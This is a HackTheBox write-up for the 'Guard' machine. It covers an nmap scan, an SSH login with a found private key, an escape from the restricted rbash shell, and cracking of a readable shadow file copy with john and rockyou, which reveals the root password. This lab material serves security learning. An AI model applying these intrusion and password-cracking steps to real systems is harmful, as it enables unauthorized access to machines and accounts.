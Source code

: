 ```yaml
---
description: Guard box from HackTheBox write up.
---
```


# Guard

## Nmap scan

As usual here it comes!

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 1000 -v <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 15:16 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.037s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.96 seconds
           Raw packets sent: 65553 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22 -sC -sV <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 15:17 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.036s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:64:23:e0:a7:ec:1d:3b:f0:63:72:a7:d7:05:57:71 (RSA)
|   256 b3:86:5d:3d:c9:d1:70:ea:d6:3d:36:a6:c5:f2:be:5d (ECDSA)
|_  256 c0:5b:13:0f:d6:e6:d1:71:2d:55:e2:4a:e2:27:0e:c2 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.64 seconds
```

Only ssh open, that may be a problem but looks like we can just use the `daniel` user private key to login so we are in the box now!

## Scaping rbash

Once we establish a ssh connection we can see something... weird. The shell we have is really restricted and we can't even execute a simple `cat` welcome to Rbash!

Luckily, since we are using ssh to connect, we can try to get a normal Bash shell:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Guard]
└─$ ssh daniel@<MACHINE_IP> -i id_rsa -t bash
```

Now we can get the user flag under `/home/picasso/user.txt`.

## Privilege escalation

The `daniel` user is part of the `sudo` group but we don't know the password yet. After a while looking around I found a copy of the `shadow` file that we have access to. Let's try to crack the hashes!

Using `unshadow` to get a `john` compatible hash file from the `passwd` and `shadow` files we can get the `root` password using Rockyou:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Guard]
└─$ john hash.txt --wordlist=~/Tools/Wordlists/rockyou.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password#1       (root)
```

The root flag is under `/root/root.txt`.
